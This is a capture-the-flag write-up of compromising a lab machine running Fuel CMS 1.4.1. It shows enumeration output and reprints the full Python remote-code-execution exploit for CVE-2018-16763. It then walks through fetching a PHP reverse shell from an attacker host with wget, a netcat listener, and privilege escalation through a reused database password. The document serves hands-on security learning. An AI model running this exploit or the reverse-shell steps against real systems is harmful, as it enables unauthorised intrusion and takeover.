


## Nmap: 
---
```bash
nmap -T4 -n -A 10.67.171.242 -oN nmap
```

```bash
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-title: Welcome to FUEL CMS
56738/tcp filtered unknown
```
- the only thing that is open, is a `web-server` 
- lets open up the site 
## further Enumeration: 
---

- so on the `web-server` runs a `CMS`-software 
- lets use `Gobuster` to scan the website
### Gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.67.171.242 -o gobuster/first_enum
```

```bash
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/0                    (Status: 200) [Size: 16597]
/@                    (Status: 400) [Size: 1134]
/assets               (Status: 301) [Size: 315] [--> http://10.67.171.242/assets/]
/home                 (Status: 200) [Size: 16597]
/index                (Status: 200) [Size: 16597]
/index.php            (Status: 200) [Size: 16597]
/lost+found           (Status: 400) [Size: 1134]
/offline              (Status: 200) [Size: 70]
/robots.txt           (Status: 200) [Size: 30]
/server-status        (Status: 403) [Size: 301]
```

- `robots.txt`: 
```bash
User-agent: *
Disallow: /fuel/
```

- when we open up `http://10.67.171.242/fuel`, we see this: 


## fuel 1.4 Exploit: 
---
- lets use `searchsploit` to search for an exploit for `fuel 1.4`: 
```bash
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated) | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authentic | php/webapps/48778.txt
------------------------------------------------------------ ---------------------------------
```

- lets try out the `47138.py` 
- we can get the python-file with: `searchsploit -m 47138` 

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```
- I did change the `url`, had to remove the variable: `proxy` and had to remove the `proxies` argument in the `GET` request in the code 
- because with the `proxy` I did get errors 

- after the execute the script we get a `shell`, but not a `interactive` one 
- so lets upload a `PHP` reverse-shell: 
```bash
[Attacker Machine]
python3 -m http.server

[Target Machine]
wget http://192.168.154.152/reverse-shell.php
```
- I use this `PHP` reverse-shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) (you have to change the IP-address in the reverse-shell and maybe the port)

- after that we setup a listener with `netcat`: 
```bash
nc -lnvp 1234
```
- the port in the reverse-shell has to match the port you assign to `netcat` 

- then we can run the shell on the `Target-machine`: 
```bash
php reverse-shell.php
```

- now to stabilize the shell a little bit, I always do this: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

- now we can read the `user.txt` in the home-directory from `www-data`: 
```bash
6<Redacted>b
```

- after that I uploaded the `linpeas.sh`, the same way I did with the `reverse-shell` and executed it
- when i was going through the results I saw this: 
```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/html/fuel/application/config/database.php:     'password' => '<Redacted>',
```

- I used this password to login into `mysql`: 
```bash
mysql -u root -p
```
- I did find a `users`-table in `fuel_schema` 
- and there was a `password-hash` with a salt for `admin` 
- I tried to crack this, but it didn't work 

- after that I tried the to log into `root` with the password we found in `database.php`  and it worked 
- so now we can read the `root.txt`: 
```bash
b<Redacted>d
```
